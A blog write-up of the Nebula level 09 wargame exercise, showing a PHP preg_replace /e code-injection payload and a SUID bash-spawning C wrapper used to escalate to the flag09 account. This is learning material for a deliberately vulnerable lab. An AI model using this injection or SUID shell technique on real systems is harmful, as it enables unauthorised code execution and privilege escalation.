```yaml
---
title: "Exploit Exercises - Nebula 09"
date: "2011-12-10T05:46:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - injection
 - hacking
---
```


Challenge 09 gave me the most issues out of any other challenge so far.  This may just be because I haven't touched PHP since version 3 was just coming out.  However, it is based on a dangerous function, known as [preg_replace()](http://php.net/manual/en/function.preg-replace.php).  There are several more dangerous functions, some of which can be seen [here](http://stackoverflow.com/questions/3115559/exploitable-php-functions). 

<!-- more -->

The challenge starts by giving us the source code of the program we will be exploiting. 

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

What I noticed immediately, was that the program accepted 2 arguments, but never used the second one, other than to pass it into the "markup" function as "$use_me".  This seemed odd, so I figured it had to do something with that.  I also thought at first that the "spam" function was never being called, but then noticed it in quotes on the first line of "preg_replace" statements.  I had to look this function up, and find out that it would evaluate the code at run-time.  This means that I needed to inject code into that call to "spam()". 

I tried doing some basic injection to try to get something equivelent to it calling: 

```
spam("");system("/bin/bash");print("");
```

However this never worked, because of the [PCRE modifiers](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) built into PHP.  They automatically will escape single and double quotes, as well as backticks (at least according to the docs).  I spent <b>hours</b> trying to inject various strings to get some sort of code execution. 

Somewhere along the line, I read a page (sorry I can't seem to find it again) where they mentioned using an alternative syntax to the backreferences in preg_replace.  So instead of using \\2, you could use ${2}.  This is covered slightly on the [preg_replace](http://php.net/manual/en/function.preg-replace.php) php function reference.  What that reference doesn't show, is that you can apparently have that not just reference parameters, but any variable in the code.  After tinkering a while, I settled on a pattern.  I created a file named, /tmp/level09.txt 

```
[email {${`$use_me`}}]
```

Firstly, I had to start with "[email " and end with "]" to get it into this regex at all.  Because of the PCRE modifiers, I used back-ticks, because in researching them, I ran across a [blog post](http://www.madirish.net/node/437) saying that back-ticks were able to bypass them somehow.  So with variable expansion, and the PCRE modifier bypass, this should let me inject some code into the function. 

Because running a "system()" or "exec()" method in the php caused me problems with interactivity, I opted to use commands that required no interaction at run-time.  I again used my /tmp/bash_id.c file from challenge 07: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

I then would call the compiled SUID version of the php file with 2 parameters.  The first would be the text file I wanted to parse, and the second would be the commands I wanted to run, which would get inserted into the $use_me variable. 


```
level09@nebula:/home/flag09$ ./flag09 /tmp/level09.txt "gcc -o /home/flag09/bash_id /tmp/bash_id.c;chmod +s,a+rwx /home/flag09/bash_id"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1
```

This compiled my bash_id.c source file to the flag09 user's home directory, and marked it SUID.  I ignored the PHP Notice, since I knew I was tinkering. 

After making sure the bash_id program did get created properly, I just needed to call it with the userid of flag09 as the first parameter. 

```
level09@nebula:/home/flag09$ ./bash_id `cat /etc/passwd | grep flag09 | cut -d : -f 3`
flag09@nebula:/home/flag09$ getflag
You have successfully executed getflag on a target account
```

This apparently worked, so I ran the "getflag" command as usual, marking completion of this challenge.  This was by far the most guessing I've had to do on any of the challenges so far.  I really hope that I don't get stuck soon, leaving me unable to continue on.
